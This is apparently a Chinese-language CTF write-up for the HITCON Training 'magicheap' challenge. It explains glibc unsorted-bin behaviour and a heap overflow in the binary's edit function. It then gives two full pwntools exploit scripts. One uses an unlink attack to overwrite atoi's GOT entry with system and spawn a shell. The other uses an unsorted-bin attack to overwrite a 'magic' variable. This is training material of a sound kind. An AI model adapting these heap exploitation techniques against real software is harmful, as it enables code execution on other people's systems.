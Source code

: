 ```yaml
---
title: lab14_magicheap
data: 2019-07-23
categories:
- hitcon_trainning
tags: heap unlink unsortedbin_attack
---
```


**<font style='font-size:25px'>Unlink | Unsortedbin_Attack</font>**

# unsorted_bin_attack

## unsortedbin

- 一个`chunk`被释放时，当他不属于`fastbin`的范围且不和`top_chunk`相邻，他就会被首先放入`unsortedbin`中。

- `malloc`的时候，如果`fastbin`和`smallbin`里都找不到相应大小的`chunk`，就会去`unsortedbin`里面找。    
    如果大小满足，就会返回相应的`chunk`给用户，不满足，就会将`unsortedbin`中所有的`chunk`放入`smallbin`中。

- 是一个双向链表。   
    - FILO，从链表头部取，放进链表尾部。
    - 取出`chunk`的时候不使用`unlink`的宏。
    ```c
    bck = victim -> bk
    //victim 是当前要取出来的chunk
    unsorted_chunks(av) -> bk = bck 
    bck -> fd = unsorted_chunks(av)
    ```

## attack

- 如果控制了`victim`的bk指向`target_addr - 8`,那么`target_addr`就可以被改写成为`unsorted_bin`的地址。

- 无法更改`target_addr`为指定内容，但可以将其覆盖为一个较大的数字。

    - 可以用来更改循环次数
    - 更改判断流程
    - ......

![ctfwiki图](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/glibc-heap/figure/unsorted_bin_attack_order.png)

# 漏洞
一个普通的菜单选择题<font style="font-size:10px">堆的专属题型（bushi</font>。    
提供`create`、`edit` & `delete`，但是`edit`里面没有检查长度造成堆溢出。     
流程中提供一个猜数功能，猜中了就可以调用`system`

# 思路
- 一个错误的想法

一开始是想用`double_free`那种思路，把`fastbins`的某一个`bin`的指针指向`got表`。所以一开始还觉得挺简单的，但很快我就想起了被寻找合适位置冒充`chunk`的`size`域支配的恐惧。     

- `unlink`

我发现基本上所有的堆溢出都可以构造出unlink的利用。只要有类似`nodelist`的指针。 

1. 构造`fake_chunk`,注意`size`大于`0x80`。
2. `delete`触发`unlink`，将`heaparray`指向`atoi`的`got`表。
3. 将`atoi@got`的内容改写成为`system@plt`。
4. 发送`/bin/sh\x00`

    **仍旧`glibc2.27`跑不了。**

- `unsorted bin attack`

    - 看了大佬的`wp`才只知道有这个攻击
    - **`glibc2.27`跑不了。**

![反汇编](https://c-ssl.duitang.com/uploads/item/201907/23/20190723155953_uv5xt.png)   
![l33t](https://c-ssl.duitang.com/uploads/item/201907/23/20190723160231_RvVGR.png)     

这里有个判断，如果`magic`是一个大于`0x1305`的数字就会执行`l33t`这个函数。    
使用`unsorted_bin_attack`更改，执行。
1. 分配3个chunk——第三个是用来隔开`top_chunk`。
2. delete(1)
3. 利用堆溢出更改`chunk_1`的bk域为`magic`的地址。
4. 再次分配一个大小相同的`chunk`。

# exp

## unlink

```python
from pwn import *
context.log_level = 'debug'
context.terminal = ['deepin-terminal','-x','sh','-c']

def create(sz,content):
    sleep(0.2)
    sh.sendlineafter(':','1')
    sh.sendlineafter('Heap :',str(sz))
    sh.sendlineafter('heap:',content)

def edit(idx,sz,content):
    sleep(0.2)
    sh.sendlineafter('choice :','2')
    sh.sendlineafter('Index :',str(idx))
    sh.sendlineafter('Heap :',str(sz))
    sh.sendlineafter('heap :',content)

def delete(idx):
    sh.sendlineafter('choice :','3')
    sh.sendlineafter('Index :',str(idx))

if __name__ == '__main__':
    sh = process('./magicheap')
    elf = ELF('./magicheap')
    libc = elf.libc
    atoi_got = elf.got['atoi']
    system_addr = elf.plt['system']
    heaparray = 0x06020E0

    create(0x90,'aaaa')
    create(0x80,'bbbb')
    create(0x80,'cccc')

    fd = heaparray - 24
    bk = heaparray - 16
    payload = p64(0) + p64(0x90) + p64(fd) + p64(bk) + cyclic(0x70) + p64(0x90) + p64(0x90) 

    pause()
    edit(0,len(payload),payload)
    delete(1)

    payload = cyclic(24) + p64(atoi_got)
    edit(0,len(payload),payload)
    
    payload = p64(system_addr)
    edit(0,len(payload),payload)

    sh.sendlineafter("choice :",'/bin/sh\x00')
    
    sh.interactive()
    sh.close()
```

## UnsortedBinAttack

```python
from pwn import *
context.log_level = 'debug'
context.terminal = ['deepin-terminal','-x','sh','-c']

def create(sz,content):
    sleep(0.2)
    sh.sendlineafter(':','1')
    sh.sendlineafter('Heap :',str(sz))
    sh.sendlineafter('heap:',content)

def edit(idx,sz,content):
    sleep(0.2)
    sh.sendlineafter('choice :','2')
    sh.sendlineafter('Index :',str(idx))
    sh.sendlineafter('Heap :',str(sz))
    sh.sendlineafter('heap :',content)

def delete(idx):
    sh.sendlineafter('choice :','3')
    sh.sendlineafter('Index :',str(idx))

if __name__ == '__main__':
    sh = process('./magicheap')
    elf = ELF('./magicheap')
    libc = elf.libc

    magic_addr = 0x6020C0

    create(0x10,'aaaa')
    create(0x80,'bbbb')
    create(0x10,'cccc')

    delete(1)
    
    payload = cyclic(0x10) + p64(0) + p64(0x91) + p64(0) + p64(magic_addr - 0x10) 
    edit(0,len(payload),payload)
    
    create(0x80,'dddd')

    sh.sendlineafter('choice :','4869')
    sh.interactive()
    sh.close()
```

# 问题

到底是为什么`glibc2.27`没法跑？

